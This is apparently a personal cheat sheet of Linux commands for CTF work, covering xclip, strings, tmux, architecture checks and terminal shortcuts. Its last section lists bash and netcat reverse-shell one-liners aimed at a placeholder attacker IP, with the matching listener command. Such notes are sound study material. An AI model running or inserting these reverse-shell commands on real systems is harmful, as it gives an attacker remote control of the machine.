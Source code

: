 # Useful commands and tools on Linux

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Useful shortcuts to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line.
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line.
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+A Ctrl+K` - move the cursor at the beginning of the line and clear all the current line from the beginning to the end.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` - Go to the begining of your prompt 
- `End` - Go to the end of your prompt

## Launch shells from a terminal

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
- *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

## Resources

{% embed url="https://askubuntu.com/questions/470966/shortcut-to-clear-command-line-terminal" %} Shortcut to clear command line terminal {% endembed %}
